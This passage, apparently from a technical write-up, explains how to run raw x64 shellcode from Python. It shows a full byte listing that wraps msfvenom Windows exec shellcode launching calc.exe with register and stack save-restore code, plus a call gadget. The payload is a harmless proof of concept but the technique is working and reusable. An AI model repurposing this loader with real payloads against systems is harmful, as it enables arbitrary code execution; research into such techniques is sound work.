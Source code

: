 1. Move the stack pointer forward
2. Push a bunch of important registers
3. Run the shellcode
4. Restore the stack
5. Pop the important registers back
6. Move the stack pointer backwards to its original place
7. Move the pointer of a random `PyObject` into `rax`
8. Return

The `calc.exe` also has to be moved forward to allow space for steps 4-8, so pointers in the shellcode also has to be patched. Here's what it looks like:

```python
retobj = "Success!! ^-^"
shellcode = b"".join([

    b"\x48\x81\xec\x00\x10\x00\x00", # sub rsp,0x1000
    b"\x50\x53\x51\x52\x55", # push rax, rbx, rcx, rdx, rbp
    
    # msfvenom -p windows/x64/exec CMD="calc.exe" EXITFUNC=none -f python
    # Modified to not crash the interpreter, 
    # at least until it finishes running this file.
    b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41",
    b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48",
    b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f",
    b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c",
    b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52",
    b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b",
    b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0",
    b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56",
    b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9",
    b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0",
    b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58",
    b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44",
    b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0",
    b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a",
    b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48",
    b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00",
    b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x1f\x01\x00\x00\x41",
    b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d\x41",
    b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06",
    b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a",
    b"\x00\x59\x41\x89\xda\xff\xd5",

    b"\x48\x81\xc4\x38\x00\x00\x00", # add rsp,0x38
    b"\x5D\x5A\x59\x5B\x58", # pop rax, rbx, rcx, rdx, rbp
    b"\x48\x81\xc4\x00\x10\x00\x00", # add rsp,0x1000
    b"\x48\xb8" + id(retobj).to_bytes(8, 'little'), # mov rax, <retobj addr>
    b"\xc3", # ret

    b"calc.exe\x00",

])

# ...

# Returns our call gadget
run = g()

# Run our call gadget
print(run())

# Output:
# > Success!! ^-^
```